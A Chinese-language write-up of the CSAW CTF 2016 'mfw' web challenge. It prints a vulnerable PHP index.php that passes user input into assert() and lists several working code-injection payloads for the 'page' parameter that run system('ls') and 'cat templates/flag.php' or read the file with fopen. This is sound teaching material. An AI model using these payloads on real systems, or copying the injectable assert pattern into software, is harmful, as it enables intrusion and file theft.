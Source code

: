 # Writeup-of-web-of-csaw-ctf-2016-quals
This is the Wirteup of web of csaw-ctf-2016-quals

通过 《write-ups-2016》 repository 中链接的几个Writeups可以看到解题方法https://github.com/ctfs/write-ups-2016/tree/master/csaw-ctf-2016-quals/web/mfw

这里是比较好的两个Writeup的链接：

https://github.com/xPowerz/CTF-Writeups/tree/master/2016/CSAW/mfw

https://github.com/ernw/ctf-writeups/tree/master/csaw2016/mfw

这里是另外一些解题思路和备份。

首先通过上面链接的Writeups里的工具和思路下载得到源码。
主要是index.php源码。
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
下载到的源码应该是历史版本，所以flag.php中没有给出flag值。
从index.php里可以看出，虽然有require_once $file可以用来包含flag.php，但因为flag是被注释掉的，我们也看不到。
代码中有assert()函数，应该很敏感地想到要利用它来执行任意命令，从而拿到flag。


观察可以发现，page传入的参数存在代码注入漏洞，顺便提一下assert()函数会把传入的字符串当做php代码来执行。

## 注入思路：整体上可以注释掉', '..') === false，或者不注释，只在中间插入。另外要注意闭合单引号和括号。


#### 中间插入型，使用 . 连接符：

查看目录：?page=flag'.system("ls").'

![description](images/1.png)

进入目录并查看文件：?page=flag'.system("cd templates;ls").'

![description](images/2.png)

查看flag.php：?page=flag'.system("cat templates/flag.php").'

![description](images/3.png)

浏览器F12进入网页源码看到flag。

![description](images/4.png)

拿到flag。

说一下 . 连接符，?page=flag'.system("ls").'带入后得到
assert("strpos('flag'.system("ls").'.php', '..') === false") or die("Detected hacking attempt!");  执行过程为 ：字符串'flag'和system("ls")和字符串'.php'拼接后，作为strpos()的第一个参数。重点是system()函数是会直接把结果输出的，不用echo，也可以输出，所以system("ls")就直接把目录输出了。

下面是几种方式：

(1) ?page=flag'.system("cat templates/flag.php").'

第一个assert变成：
~~~~
assert("strpos('templates/flag'.system("cat templates/flag.php").'.php', '..') === false") or die("Detected hacking attempt!");
~~~~
(2) 
~~~~
?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('
~~~~
第一个assert变成：
~~~~
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");
~~~~

#### 注释型

注意：assert()函数会把传入的字符串当做php代码来执行。

如果注释掉后面的语句：

(1) ?page=','88')===false and system("cat templates/flag.php");//

第一个assert变成：
~~~~
assert("strpos('templates/','88')===false and system("cat templates/flag.php");//.php', '..') === false") or die("Detected hacking attempt!");
~~~~

(2) flag','..')+or+system('cat+templates/flag.php');//
或者写成 flag','..') or system('cat templates/flag.php');//

第一个assert变成：
~~~~
assert("strpos('templates/flag','..') or system('cat templates/flag.php');//.php', '..') === false") or die("Detected hacking attempt!");
~~~~




